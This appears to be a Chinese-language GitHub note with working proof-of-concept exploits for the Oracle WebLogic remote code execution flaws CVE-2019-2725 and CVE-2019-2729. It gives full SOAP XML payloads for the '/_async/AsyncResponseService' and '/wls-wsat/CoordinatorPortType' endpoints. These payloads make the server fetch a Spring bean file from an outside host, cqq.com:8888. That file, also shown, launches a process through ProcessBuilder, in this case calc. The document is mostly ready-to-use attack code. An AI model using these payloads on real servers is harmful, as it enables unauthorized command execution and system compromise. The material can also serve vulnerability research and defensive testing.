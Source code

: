 这个类`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`在v10和v12都存在：
- 10.3.6.0: `modules/com.bea.core.repackaged.springframework.spring_1.2.0.0_2-5-3.jar`
- 12.1.3.0: `wlserver/modules/com.bea.core.repackaged.springframework.spring_1.5.0.0_2-5-3.jar`

而且这两个path：
- `/wls-wsat/CoordinatorPortType`
- `/_async/AsyncResponseService`
都可以用。

限制条件在于：服务器能否外联出网

### CVE-2019-2725_v10_v12
poc:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
<java>
<class><string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
<void>
<string>
http://cqq.com:8888/spel2.xml
</string>
</void>
</class>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```

### CVE-2019-2729_v10
由于jdk的xmldecoder原因，`<array method="forName">`仅支持基于jdk6的v10.

poc:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
<java>
<array method="forName">
<string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
<void>
<string>
http://cqq.com:8888/spel2.xml
</string>
</void>
</array>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```



其中spel2.xml文件内容：
```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>cmd</value>
        <value>/c</value>
        <value><![CDATA[calc]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```


参考：
- [Weblogic-CVE-2019-2725分析通杀poc](https://p0rz9.github.io/2019/05/22/Weblogic-CVE-2019-2725%E5%88%86%E6%9E%90%E9%80%9A%E6%9D%80poc/)
- [Weblogic-CVE-2019-2725-通杀payload](http://www.lmxspace.com/2019/05/15/Weblogic-CVE-2019-2725-%E9%80%9A%E6%9D%80payload/)
- [WebLogic wls9-async组件RCE分析（CVE-2019-2725）](https://lucifaer.com/2019/05/10/WebLogic%20wls9-async%E7%BB%84%E4%BB%B6RCE%E5%88%86%E6%9E%90%EF%BC%88CVE-2019-2725%EF%BC%89/)
